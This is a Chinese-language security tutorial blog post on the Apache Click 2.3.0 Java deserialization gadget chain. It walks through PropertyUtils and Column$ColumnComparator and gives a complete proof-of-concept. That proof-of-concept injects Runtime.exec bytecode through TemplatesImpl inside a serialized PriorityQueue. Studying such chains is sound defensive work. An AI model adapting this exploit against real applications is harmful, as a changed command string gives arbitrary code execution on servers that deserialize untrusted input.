

# Java安全学习—Click链

Author: H3rmesk1t

Data: 2022.03.16

# Click 简介
[Apache Click](https://click.apache.org/) is a modern JEE web application framework, providing a natural rich client style programming model. Apache Click is designed to be very easy to learn and use, with developers getting up and running within a day.

# 环境搭建

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.click</groupId>
        <artifactId>click-nodeps</artifactId>
        <version>2.3.0</version>
    </dependency>
</dependencies>
```

# 前置知识
## PropertyUtils
在`click`中有一个工具类`org.apache.click.util.PropertyUtils`, 用来操作属性, 其中有一个`getValue`方法用来获取某个对象中某个属性的值. 利用`name`来得到属性名, 接着将会调用`getObjectPropertyValue`方法, 传入对象实例、属性名和方法缓存三个参数.

```java
public static Object getValue(Object source, String name) {
    String basePart = name;
    String remainingPart = null;
    if (source instanceof Map) {
        return ((Map)source).get(name);
    } else {
        int baseIndex = name.indexOf(".");
        if (baseIndex != -1) {
            basePart = name.substring(0, baseIndex);
            remainingPart = name.substring(baseIndex + 1);
        }

        Object value = getObjectPropertyValue(source, basePart, GET_METHOD_CACHE);
        return remainingPart != null && value != null ? getValue(value, remainingPart, GET_METHOD_CACHE) : value;
    }
}
```

在`getObjectPropertyValue`方法中, 通过获取传入对象实例中指定属性名的`getter`方法, 然后通过反射调用. 即`PropertyUtils#getValue`方法能够触发指定属性的`getter`方法, 可以用来触发`TemplatesImpl`链的利用方式.

```java
private static Object getObjectPropertyValue(Object source, String name, Map cache) {
    PropertyUtils.CacheKey methodNameKey = new PropertyUtils.CacheKey(source, name);
    Method method = null;

    try {
        method = (Method)cache.get(methodNameKey);
        if (method == null) {
            method = source.getClass().getMethod(ClickUtils.toGetterName(name));
            cache.put(methodNameKey, method);
        }

        return method.invoke(source);
    } catch (NoSuchMethodException var13) {
        try {
            method = source.getClass().getMethod(ClickUtils.toIsGetterName(name));
            cache.put(methodNameKey, method);
            return method.invoke(source);
        } catch (NoSuchMethodException var11) {
            String msg;
            try {
                method = source.getClass().getMethod(name);
                cache.put(methodNameKey, method);
                return method.invoke(source);
            } catch (NoSuchMethodException var9) {
                msg = "No matching getter method found for property '" + name + "' on class " + source.getClass().getName();
                throw new RuntimeException(msg);
            } catch (Exception var10) {
                msg = "Error getting property '" + name + "' from " + source.getClass();
                throw new RuntimeException(msg, var10);
            }
        } catch (Exception var12) {
            String msg = "Error getting property '" + name + "' from " + source.getClass();
            throw new RuntimeException(msg, var12);
        }
    } catch (Exception var14) {
        String msg = "Error getting property '" + name + "' from " + source.getClass();
        throw new RuntimeException(msg, var14);
    }
}
```

## ColumnComparator
`org.apache.click.control.Column`用来提供表格中`<td>/<th>`的一些属性的渲染, 实现了`Serializable`接口, 可以被反序列化. 并且在`Column`中定义了一个内部类`ColumnComparator`, 其实现了`Comparator`接口, 用来比较一个`Column`中的两个`row`.

<div align=center></div>

在比较时又会调用`this.column`的`getProperty`方法, 并且当`row`不是`map`类型的情况下, 这个方法会调用到`PropertyUtils`的`getValue`方法获取值, 此时就可以利用上文提到的: `PropertyUtils#getValue`方法触发指定属性的`getter`方法, 进而触发`TemplatesImpl`链的利用方式.

<div align=center></div>

# POC

```java
package org.h3rmesk1t.Click;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.click.control.Column;
import org.apache.click.control.Table;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 12:59 上午
 */
public class ClickExploit {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static byte[][] evilByteCodes() throws Exception {

        // 生成恶意的 bytecodes.
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("ClickExploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        return new byte[][]{ctClassBytes};
    }

    public static void main(String[] args) throws Exception {

        // 实例化类并设置属性.
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", evilByteCodes());
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        // 初始化 PriorityQueue.
        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        // 反射将 TemplatesImpl 放在 PriorityQueue 里.
        setFieldValue(queue, "queue", new Object[]{templatesImpl, templatesImpl});

        Class<?> clazz = Class.forName("org.apache.click.control.Column$ColumnComparator");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Column.class);
        constructor.setAccessible(true);

        Column column = new Column("outputProperties");
        // 为了避免反序列化比较时的空指针, 为 column 设置一个 Table 属性.
        column.setTable(new Table());
        Comparator comparator = (Comparator) constructor.newInstance(column);

        // 反射将 BeanComparator 写入 PriorityQueue 中.
        setFieldValue(queue, "comparator", comparator);
        Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field2.setAccessible(true);
        field2.set(queue, comparator);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(queue);
            objectOutputStream.close();

            // 反序列化
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


# 调用链

```java
PriorityQueue.readObject()
    Column$ColumnComparator.compare()
        Column.getProperty()
            PropertyUtils.getValue()
                PropertyUtils.getObjectPropertyValue()
                    TemplatesImpl.getOutputProperties()
```

# 总结
## 利用说明
`PriorityQueue`反序列化触发`Column$ColumnComparator`类的`compare`方法, 会调用`PropertyUtils`的`getValue`方法获取属性值, 并使用反射调用`getter`方法来触发`TemplatesImpl`利用链.

## Gadget
 - kick-off gadget: java.util.PriorityQueue#readObject
 - sink gadget: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties
 - chain gadget: org.apache.click.control.Column$ColumnComparator#compare

# 参考
 - [Click1](https://su18.org/post/ysoserial-su18-5/#:~:text=clojure%20%3E%201.2.0-,Click1,-Apache%20Click%20%E6%98%AF)